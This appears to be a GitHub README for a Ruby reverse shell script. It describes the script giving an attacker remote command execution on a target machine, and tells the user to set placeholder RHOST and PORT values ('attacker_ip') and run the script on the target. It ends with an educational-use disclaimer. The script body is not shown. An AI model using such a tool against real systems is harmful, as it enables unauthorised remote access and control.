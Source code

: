 # Reverse Shell Script

This is a simple reverse shell script written in Ruby. The script establishes a connection from the target machine to an attacker's machine, allowing the attacker to execute commands on the target machine remotely.

## Usage

1. **Install Ruby**: Ensure that Ruby is installed on your system. You can download it from [ruby-lang.org](https://www.ruby-lang.org/en/downloads/).

2. **Configure IP and Port**: Modify the `RHOST` and `PORT` variables in the script to match the IP address and port number of the attacker's machine. This is necessary for establishing the reverse connection.

    ```ruby
    RHOST = "attacker_ip"  # Replace "attacker_ip" with the attacker's IP address
    PORT = "attacker_port" # Replace "attacker_port" with the attacker's port number
    ```

3. **Run the Script**: Execute the script on the target machine. This can be done using the following command:

    ```sh
    ruby reverse_shell.rb
    ```

## Important Notice

This script is intended for educational purposes only. Unauthorized use of this script to gain access to computer systems is illegal and unethical. Always obtain proper authorization before testing or using this script on any network or system.
